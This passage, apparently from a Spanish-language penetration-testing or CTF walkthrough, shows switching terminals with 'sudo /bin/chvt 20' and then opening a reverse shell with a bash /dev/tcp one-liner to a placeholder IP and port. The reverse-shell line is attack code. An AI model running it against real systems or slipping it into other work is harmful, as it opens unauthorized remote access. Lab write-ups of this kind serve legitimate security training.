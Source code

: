Una vez que invoquemos la `tty`:

```shell
sudo /bin/chvt 20
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-15 103448.png" alt=""><figcaption></figcaption></figure>

Ahora nos vamos a realizar una `reverse shell` para tener una `TTY` sanitizada.

```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
